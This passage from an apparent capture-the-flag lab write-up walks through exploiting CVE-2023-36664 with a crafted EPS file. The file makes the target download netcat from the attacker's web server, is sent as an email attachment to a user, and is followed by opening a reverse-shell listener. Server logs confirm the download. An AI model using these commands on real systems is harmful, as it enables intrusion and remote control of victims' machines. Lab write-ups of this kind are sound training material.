 Generate first payload, where we will inject command to download Netcat binary from local machine to target machine.

```shell
python3 CVE_2023_36664_exploit.py --generate --payload "curl 10.10.14.85:7000/nc.exe -o nc.exe" --filename payload1  --extension eps
```

Start local web server to host the Netcat, here using the windows-resources package version of nc at `usr/share/windows-resources/binaries/nc.exe`.

```shell
labadmin@labmachine:/usr/share/windows-resources/binaries$ python3 -m http.server 7000
Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...
```

Now we reply to the email to Dr Brown with the payload1.eps file attached. Send and check the web server if the nc file was transferred successfully.

![hospital11](./assets/hospital11.png)

We now see in the logs for the local web server that the package was transferred.

```shell
labadmin@labmachine:/usr/share/windows-resources/binaries$ python3 -m http.server 7000
Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...
10.10.11.241 - - [11/Apr/2024 17:57:45] "GET /nc.exe HTTP/1.1" 200 -
```

Now we start a local listener to prepare for reverse shell.

```shell
labadmin@labmachine:~$ nc -lvnp 6000
Listening on 0.0.0.0 6000
```
